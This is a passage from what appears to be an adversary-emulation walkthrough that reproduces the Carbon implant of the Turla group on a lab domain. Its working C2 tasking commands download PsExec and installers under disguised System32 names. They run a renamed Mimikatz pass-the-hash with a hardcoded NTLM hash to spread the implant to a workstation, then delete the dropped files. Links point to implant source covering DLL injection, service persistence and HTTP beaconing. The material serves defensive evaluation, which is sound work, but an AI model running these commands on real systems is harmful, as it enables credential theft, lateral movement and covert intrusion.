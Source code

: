 * Close any spurious windows

* Open up Edge, but don't browse to any website just yet. The browser process is needed for Carbon comms lib DLL injection to occur.

:arrow_right: Wait 1 minute and return to your Kali control server terminal

* Task the CARBON-DLL implant on the domain controller to download PsExec.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 4, "payload": "PsExec.exe", "payload_dest": "C:\\Windows\\Temp\\tmp5712.tmp", "cmd": "move C:\\Windows\\Temp\\tmp5712.tmp C:\\Windows\\System32\\wsqsp.exe && dir C:\\Windows\\System32\\wsqsp.exe"}'
```

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller
to download a third copy of the CARBON-DLL installer.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 5, "payload": "carbon_installer_3.exe", "payload_dest": "C:\\Windows\\Temp\\tmp1283.tmp", "cmd": "move C:\\Windows\\Temp\\tmp1283.tmp C:\\Windows\\System32\\wsqmanager.exe && dir C:\\Windows\\System32\\wsqmanager.exe"}'
```

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller
to use the previously downloaded Mimikatz to pass-the-hash and (1) copy the
installer to Adalwolfa's workstation and (2) execute it using PsExec.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 6, "cmd": "C:\\Windows\\System32\\terabox.exe \"pr::d\" \"slsa::htp /user:adalwolfa /domain:skt /ntlm:07d128430a6338f8d537f6b3ae1dc136 /remotepc:khabibulin /pexe:C:\\Windows\\System32\\wsqsp.exe /sys:1 /prun:C:\\Windows\\System32\\wsqmanager.exe\" \"quit\""}'
```

:heavy_exclamation_mark: Verify that a new Carbon implant has been registered with the control server.

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller to clean up dropped files.
```bash
./evalsC2client.py --set-task a3e63922 '{"id": 7, "cmd": "del /Q C:\\Windows\\System32\\terabox.exe C:\\Windows\\System32\\wsqsp.exe C:\\Windows\\System32\\wsqmanager.exe"}'
```

### :moyai: Source Code

* [CARBON-DLL installer](CarbonInstaller_README.md)
  * [Drop components](file_handler.cpp#L178)
  * [Create Loader Service](service_handler.cpp#L170)
    * Service registry edits: [1](service_handler.cpp#L230), [2](service_handler.cpp#L284)
  * [Start Loader Service](service_handler.cpp#L354)
  * [Loader Service](service.cpp)
* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Comms Lib DLL Injection](injection.cpp#L454)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task/payload retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](NamedPipeP2p.cpp)
* [Mimikatz](Resources_Mimikatz.)
